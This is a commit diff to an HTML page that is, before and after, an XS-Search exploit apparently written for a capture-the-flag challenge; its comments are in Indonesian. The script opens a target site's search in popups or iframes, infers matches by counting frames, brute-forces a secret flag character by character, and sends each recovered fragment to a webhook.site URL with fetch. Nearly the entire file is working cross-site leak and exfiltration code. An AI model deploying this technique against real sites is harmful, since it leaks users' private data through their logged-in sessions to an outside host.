

Before and after one commit to sofiacynn10-dot/xssearch, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

````diff
--- a/index.html
+++ b/index.html
@@ -1,82 +1,82 @@
-```html
-<!doctype html>
-<html>
+<!DOCTYPE html>
+<html lang="en">
+<head>
+    <meta charset="UTF-8">
+    <title>Exploit - XS-Search</title>
+</head>
 <body>
-<h2>Loading...</h2>
+    <h1 id="status">Siphoning Flag...</h1>
+    <div id="log"></div>
 
     <script>
-const TARGET = "https://wonder.cbd2026.cloud";
-const WEBHOOK = "https://webhook.site/a0c938c2-b011-4cc8-ad8a-4691d5a93094";
-const CHARS = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}-!@#$%^&*()";
-let flag = "CBC{";
+        // Konfigurasi berdasarkan input kamu
+        const TARGET = 'https://wonder.cbd2026.cloud';
+        const WEBHOOK = 'https://webhook.site/a0c938c2-b011-4cc8-ad8a-4691d5a93094';
 
-async function sleep(ms){
-  return new Promise(r => setTimeout(r, ms));
+        // Karakter yang mungkin ada di dalam flag
+        const CHARSET = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_!@#$}{';
+
+        // Prefix flag (berdasarkan pola Waskita CTF sebelumnya)
+        let knownFlag = 'CBC{';
+
+        async function leak(query) {
+            return new Promise((resolve) => {
+                // Membuka jendela baru agar cookie SameSite=Lax tetap terkirim
+                let win = window.open(`${TARGET}/search?q=${encodeURIComponent(query)}`);
+
+                // Tunggu sebentar hingga halaman Search me-render iframe preview
+                setTimeout(() => {
+                    try {
+                        // Jika hasil ditemukan, search.php merender 1 iframe.
+                        // window.length akan bernilai > 0 jika ada iframe di dalamnya.
+                        const found = win.length > 0;
+                        win.close();
+                        resolve(found);
+                    } catch (e) {
+                        // Jika terjadi error (misal window sudah tertutup atau diblok)
+                        if (win) win.close();
+                        resolve(false);
                     }
-
-async function testPrefix(prefix){
-  return new Promise((resolve) => {
-    let f = document.createElement("iframe");
-    f.style.display = "none";
-
-    f.onload = async () => {
-      await sleep(1200);
-
-      let ok = false;
-
-      try {
-        // jika hasil pencarian punya iframe preview pdf
-        ok = f.contentWindow.length > 0;
-      } catch(e){
-        ok = false;
-      }
-
-      f.remove();
-      resolve(ok);
-    };
-
-    f.src = TARGET + "/search?q=" + encodeURIComponent(prefix);
-    document.body.appendChild(f);
+                }, 750); // Jeda 750ms (sesuaikan dengan kecepatan server)
             });
         }
 
-async function exfil(data){
-  fetch(WEBHOOK + "?flag=" + encodeURIComponent(data)).catch(()=>{});
-}
+        async function startSiphoning() {
+            document.getElementById('log').innerHTML += `<p>Starting with: <b>${knownFlag}</b></p>`;
 
-async function run(){
-  await exfil("START:" + flag);
+            while (!knownFlag.endsWith('}')) {
+                let foundChar = false;
 
-  while(!flag.endsWith("}")){
-    let found = false;
+                for (let char of CHARSET) {
+                    let attempt = knownFlag + char;
 
-    for(let c of CHARS){
-      let guess = flag + c;
+                    if (await leak(attempt)) {
+                        knownFlag += char;
+                        foundChar = true;
 
-      document.body.innerHTML = "<h2>Trying: " + guess + "</h2>";
+                        // Kirim progres ke webhook kamu secara real-time
+                        fetch(`${WEBHOOK}?found=${encodeURIComponent(knownFlag)}`);
 
-      let ok = await testPrefix(guess);
-
-      if(ok){
-        flag += c;
-        await exfil(flag);
-        found = true;
+                        // Update tampilan di halaman eksploit
+                        document.getElementById('log').innerHTML += `<p>Matched: <b>${knownFlag}</b></p>`;
                         break;
                     }
                 }
 
-    if(!found){
-      await exfil("FAILED_AT:" + flag);
+                // Jika tidak ada karakter yang cocok, hentikan agar tidak looping selamanya
+                if (!foundChar) {
+                    fetch(`${WEBHOOK}?status=failed&last_seen=${encodeURIComponent(knownFlag)}`);
+                    document.getElementById('status').innerText = "Siphoning Failed/Finished";
                     break;
                 }
             }
 
-  await exfil("DONE:" + flag);
-  document.body.innerHTML = "<h1>" + flag + "</h1>";
+            document.getElementById('status').innerText = "Flag Captured!";
         }
 
-run();
+        // Jalankan serangan setelah halaman dimuat
+        // Pastikan bot admin mengizinkan Pop-up
+        startSiphoning();
     </script>
 </body>
 </html>
-```
````
Lines whose indentation alone changed are shown as unchanged.
